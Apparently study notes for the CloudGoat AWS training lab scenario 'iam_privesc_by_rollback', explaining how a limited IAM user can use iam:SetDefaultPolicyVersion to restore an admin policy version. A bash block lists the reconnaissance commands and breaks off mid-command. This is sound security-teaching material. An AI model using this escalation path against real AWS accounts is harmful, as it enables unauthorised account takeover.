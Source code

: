 
## Scenarios Available

---


### Scenarios 1: iam_privesc_by_rollback (Small / Easy)

| ++             | ++                                                          |
| -------------- | ----------------------------------------------------------- |
| Scenario Goal  | Acquire full admin privileges.                              |
| Size           | Small                                                       |
| Difficulty     | Easy                                                        |
| Command        | `$ ./cloudgoat.py create iam_privesc_by_rollback`           |
| lesson learned | <font color=red> iam:SetDefaultPolicyVersion </font> can lead to serious security issues, user can roll-back to any version, If any of these versions have additional permissions, then it is a privilege escalation and the severity depends on the additional permissions.


![68747](https://i.imgur.com/8MZEA2V.png)


Starting with a highly-limited IAM user,
- the attacker is able to review previous IAM policy versions
- and restore one which allows full admin privileges,
- resulting in a privilege escalation exploit.


```bash
# ------------- 1. have a set of AWS credentials
# create a named profile with the security credentials using AWS CLI.
aws configure \
    --profile raynor


# ------------- 2. identity who the security credentials belong to
# got the userId, account, Arn(accountID+IAMusername)
aws sts get-caller-identity \
    --profile raynor


# ------------- 3. enumerate the permissions of the services in the AWS account.
# Scout Suite, enumerate-iam etc.
# - brute force AWS API calls
# - to determine which API calls are allowed for a given set of security credentials.



# ------------- 3. enumerate Inline Policies and Managed Policies of IAM user "Raynor"
# When evaulating security of an IAM identity (users, groups of users, or roles), enumerating policies and permissions is an essential step.

# analyzes Raynor's privileges
# got the policyARN
# A "Customer Managed Policy" cg-raynor-policy is attached directly to the IAM user "Raynor".
aws iam list-attached-user-policies \
    --user-name raynor \
    --profile raynor

# enumerate the customer managed policy "cg-raynor-policy "
# --only-attached : extract only attached policies and "scope" as Local to only extract customer managed policies.
# -query : extract only information related to cg-raynor-policy.
# Notice that the default version is v1.
aws iam list-policies \
```